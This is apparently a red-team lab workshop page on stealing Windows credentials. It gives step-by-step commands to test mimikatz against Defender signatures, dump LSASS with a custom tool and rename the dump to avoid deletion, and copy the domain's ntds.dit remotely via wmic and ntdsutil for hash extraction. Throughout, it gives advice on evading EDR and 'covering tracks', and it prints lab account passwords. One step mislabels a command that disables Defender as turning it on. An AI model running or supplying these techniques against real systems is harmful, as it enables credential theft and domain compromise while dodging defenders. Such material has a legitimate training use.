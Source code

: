 # Advanced Credential Grabbing

Mimikatz is very burned, but you can still use its functionality on your attacker device where you don't have to worry about detections.  No reason the re-invent the wheel here, but custom tooling is required to get around the standard detections built in to most EDRS.

If you are looking to understand what part of various malware or attacker tools is being detected you can use defender check.

This tool will leverage the current database of defender and identify the area of a binary or file that is triggering a given alert.  This only works for static detections, not for heuristic or behavioral detections.

> **OPSEC NOTES**:
> - This can be ran remotely
> - You could have this feed out to a listenting IP/Port
> - Can be ran as an injected dll in another service.
> - the dump file itself is signatured by defender, much less the tools that generate it


1. On the client box (LIGHTEATER), logged in directly as pslearner.
2. Open and administrative powershell prompt and navigate to `C:\Users\Public\Desktop\LAB_FILES\assets`
3. Unzip mimikatz and defender check using `expand-archive`
    ```powershell
    expand-archive defender-check.zip
    expand-archive mimikatz_trunk.zip
    ```
4. Run the following command to check mimikatz for signatures:
    ```
    .\defender-check\defendercheck.exe .\mimikatz_trunk\mimikatz.exe
    ```
5. In your results you see X.  

> If you still really wanted to use mimikatz, the process to re-compile a version that did not alert on defender (at least on file write) is to use the output of defender check to identify parts of the code that can be changed not to match the signature.

## Custom LSASS Dump

> Turning defender off, can either be difficult, or not guarunteed to stay that way due to domain policies, or even other EDR implementations. So what to do?
> Even using AMSI bypasses can be concerning these days due to the frequency at which the signature are updated even for the bypasses. 
> More advanced actors are using custom tooling.  There are two considerations.  Executables can be executed in memory, but then the process is not directly tied to an executable. So you can inject into another process that is already running, which is really the way to go.
> Other options are to bring your own executable, or use signed executables already on the box to execute DLL files through sideloading to do your bidding.

Some examples of these techniques are what we will cover here and in the other adanced modules.

1. From the Lighteater (Attacker Box), RDP into the TWORIVERS (client) with the local administrator account.  TWORIVERS\Administrator:Summerishere@2023!
2. Ensure windows defender is turned back on. `Set-MpPreference -DisableRealtimeMonitoring 1`
2. Open an Administrative powershell terminal.
3. Change directory `cd c:\Users\Public\Desktop\LAB_FILES\assets`
4. Unzip the custom-procdump folder.
`expand-archive .\custom-procdump.zip`
5. CD into the "custom-procdump" folder.
6. Execute the nimprocdump.exe program. 
```powershell
.\nimprocdump.exe
```
![Proc Dump Output](./nimprocdump.png)

> This will find the process with lsass, and dump it into a file.  Important not to add this kind of info into a command line while you have commandline process auditing on. Which is why you build the options into the executable, and then additional information like PIDs are logged as arguments, which can later be used for detections.

This is detected and the proc.dump file is deleted.  Oh no!
![Proc Dump Alert](./nimprocdump-alert.png)

> Notice it is not deleting the .exe and the alert is actually focused on that processes dump the proc.dump file.  So likely the alert is focused on the file itselt.

7. This time, lets simply rename the lsass.dump file.  `.\nimprocdump.exe; rename-item c:\proc.dump c:\not.dump`

> There are still alerts but the lsass.dump file is not deleted.



## Create Domain Save with 
https://www.microsoft.com/en-us/security/blog/2023/05/24/volt-typhoon-targets-us-critical-infrastructure-with-living-off-the-land-techniques/

If you then end up with domain creds, one next step can be to grab the has credentials from the entire domain of course! There are a number of ways that have been flagged to essentaill steal the ntds.dit file from the Domain Controller.

Notes: VSSADMIN gets caught because it's use is so commonly associated with the steps that happen before you are ransomed.  Other tools like ninja copy require extended interaction within a remote session of powershell and loading of an additional library, all super noisy.

> If you can't tell, I reall think using tools that already exist on the sytem, or are commonly used by admins helps stay under the radar, and it makes detections for automated tooling really difficult. One such way is to use the ntdsutil tool that is built into domain controllers to create backup media.  Further, using wmic is just really hard to catch.  This is being actively used in the volt typhoon campaigns.

1. Remote into the TWORIVERS (client ) 172.31.24.111 with the domain admin credentials: wheel\ralthor : JustAn0therG!ng3r
2. As this user, open a administrative command prompt. (Leave defender on.)
3. Run the following command to launch this remote process on the Domain Controller using an administrative command prompt. Not powershell, the escape characters are different.

```batch
wmic /node:tarvalaon.wheel.co /user:wheel\Administrator /password:12qwaszx!@QWASZX process call create "cmd.exe /c mkdir C:\Windows\temp"
wmic /node: /user:wheel\Administrator /password:12qwaszx!@QWASZX process call create "cmd.exe /c ntdsutil \"ac i ntds\" ifm \"create full c:\Windows\temp\pew\" q q"
```

4. From you here you would retieve the file and unpack it to dump all the users and associated hashes without making really loud dcsync requests.

5. You can use the impackt secrets dump to dump hashes out fo the ntds.dit file.
[Secrets Dump Walk Through](https://airman604.medium.com/dumping-active-directory-password-hashes-deb9468d1633#:~:text=Using%20the%20two%20saved%20files%20%28NTDS.dit%20and%20SYSTEM,domain%20controller%29%3A%20secretsdump.py%20-system%20%3Cpath_to_system_hive%3E%20-ntds%20%3Cpath_to_ntds.dit%3E%20LOCAL)


> From here you sould properly cover your tracks, but that is a different workshop.

